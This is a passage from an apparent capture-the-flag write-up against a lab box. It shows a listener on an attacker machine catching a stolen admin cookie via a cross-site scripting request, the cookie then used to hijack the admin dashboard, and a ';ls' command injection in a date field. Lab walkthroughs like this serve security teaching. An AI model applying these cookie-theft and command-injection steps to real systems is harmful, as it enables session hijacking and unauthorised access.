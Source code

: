 Once the payload is ready, a webserver is started to receive the `document.cookie` value as a query parameter to the malicious GET request the server is inadvertently tricked into sending.

```bash
┌──(emdeh㉿kali)-[~/Documents]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.27.108 - - [13/Apr/2024 01:12:14] "GET /?c=is_admin=ImFkbWluIg.<SNIP> HTTP/1.1" 200 -

```


# Cookie manipulation

Putting the captured cookie through a decoder reveals it has a header value of `admin`. Given the original cookie had a value of `user`, it would appear an administrator cookie has been obtained.

Including the cookie in a request to the `/dashboard` page successfully hijacks a admin session and reveals the Administrator Dashboard with a simple form to generate a website health report with a `Select Date` field.

<img src="/assets/img/2024/2024-03-headless/admin-dashboard.png" alt="admin-dashboard.png" class="auto-resize">


# Enumerating the `Select Date` field

Testing to see if the `Select Date` field is properly sanitised quickly suggests it is not. Including `;ls` returns a list of files to the browser as shown below.
